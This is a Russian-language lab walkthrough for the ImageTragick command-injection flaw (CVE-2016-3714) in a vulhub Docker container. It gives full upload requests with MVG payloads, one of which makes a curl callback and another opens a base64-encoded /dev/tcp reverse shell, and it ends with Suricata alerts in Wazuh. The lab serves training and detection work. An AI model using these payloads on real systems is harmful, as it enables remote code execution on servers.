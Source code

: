 # Imagemagick Command Injection

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2016-3714](https://nvd.nist.gov/vuln/detail/CVE-2016-3714)
* [https://www.opencve.io/cve/CVE-2016-3714](https://www.opencve.io/cve/CVE-2016-3714)

ImageMagick — это широкий набор инструментов для обработки изображений, многие производители называют эту программу для обработки изображений, включая масштабирование, обрезку, установку водяных знаков, преобразование формата и многого другого. Однако некоторые исследователи обнаружили, что когда пользователь переходит к изображению, содержащему «деформированный контент», это может вызвать уязвимости внедрения команд.

Сотрудники внешней безопасности создали для этого веб-сайт: https://imagetragick.com/ с подробным описанием уязвимости и способах её эксплуатации

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/imagemagick/imagetragick

Для запуска PHP-сервера, включающего в себя Imagemagick 6.9.2-10, выполните команду:

```
docker compose up -d
```

После запуска сервера по адресу `http://ваш-ip:8080/` будет доступна страница с возможностью загрузки файлов

<figure><img src="../../.gitbook/assets/imagetragick(1).png" alt=""><figcaption></figcaption></figure>

Для реализации данной уязвимости нужно отправить POST-запрос с полезной нагрузкой:

```
POST / HTTP/1.1
Host: 10.10.11.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: http://10.10.11.130:8080
Connection: close
Referer: http://10.10.11.130:8080/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 312

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "10.10.11.130:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

Видно, что после его отправки мы получили http-запрос

<figure><img src="../../.gitbook/assets/imagetragick(2).png" alt=""><figcaption></figcaption></figure>

С помощью данной уязвимости мы можем получить обратную оболочку, отправив следующий запрос:

```
POST / HTTP/1.1
Host: 10.10.11.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: http://10.10.11.130:8080
Connection: close
Referer: http://10.10.11.130:8080/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 378

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTEuMTQ1LzQ0NDQgMD4mMQo= | base64 -d | bash`"||id " )'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

\*\*\*

Здесь c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTEuMTQ1LzQ0NDQgMD4mMQo= - это закодированная в base64 полезная нагрузка для получения обратной оболочки

<figure><img src="../../.gitbook/assets/imagetragick(3).png" alt=""><figcaption></figcaption></figure>

Сгенерировать свою собственную нагрузку можно на [https://www.revshells.com/](https://www.revshells.com/)

<figure><img src="../../.gitbook/assets/imagetragick(4).png" alt=""><figcaption></figcaption></figure>

\*\*\*

После отправки запроса с созданным пэйлоадом мы можем получить обратную оболочку поднятого контейнера

<figure><img src="../../.gitbook/assets/imagetragick(5).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/imagetragick(6).png" alt=""><figcaption></figcaption></figure>

